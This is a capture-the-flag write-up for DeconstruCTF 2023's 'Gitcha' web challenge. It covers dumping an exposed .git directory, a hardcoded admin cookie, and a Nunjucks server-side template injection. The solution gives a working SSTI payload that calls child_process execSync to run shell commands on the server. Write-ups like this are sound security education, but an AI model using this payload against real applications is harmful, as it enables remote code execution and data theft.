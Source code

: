 ```yaml
---
title: DeconstruCTF 2023 - Gitcha
date: Sun Aug  6 12:31:12 PM +04 2023
categories: [Writeup]
tags: [ctf,deconstructf,deconstructf2023,web,git,ssti]
---
```


## Description

Simon is maintaining a personal portfolio website, along with a secret which no one else knows.

Can you discover his secret?

## Analysis

Website is empty placeholder, single page application. Looking into the source I found:

```html
<!-- John, don't forget to take the .git route down, we don't need it anymore -->
```

Looks like someone forgot to take down `.git`. Using [git-dumper](https://github.com/arthaud/git-dumper) let's get the source.

First thing we should look into in a node application is `index.js`.

First discovery:

```js
const checkAdmin = (req, res) => {
  if (req.cookies["SECRET_COOKIE_VALUE"] === "thisisahugesecret") {
    return true;
  }
  return false;
};
```

Second discovery:

```js
app.get("/robots.txt", (req, res) => {
  res.type("text/plain");
  res.send("User-agent: *\nDisallow: /.git/\nDisallow: /supersecret/");
});
```

Possible attack vector:

```js
app.get("/getnotedetails", async (req, res) => {
  if (checkAdmin(req, res)) {
    const { id } = req.query;
    const note = await prisma.note.findUnique({ where: { id: parseInt(id) } });
    res.send(
      nunjucks.renderString(`
      <div style="margin: 15px;">
        <h1 style="font-family: Roboto;">${note.title}</h1>
        <p>${note.content}</p>
      </div>
  `)
    );
  } else {
    res.redirect("/");
  }
});
```

Quick google search about vulnaribility of `nunjucks` shows a great post by Emilio Pinna (IT security researcher).<br>
<https://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine>

## Solution

1. Set cookie: `SECRET_COOKIE_VALUE=thisisahugesecret`
2. Go to `/supersecret`
3. Create note
	* Title: Anything
	* Content: {% raw %} `{{range.constructor("return global.process.mainModule.require('child_process').execSync('cat flag.txt')")()}}` {% endraw %}
4. Go back to `/supersecret` and Refresh.
5. See note contents
6. Profit

> Flag: dsc{g1t_enum3r4ti0n_4nD_sSt1}
{: .prompt-tip }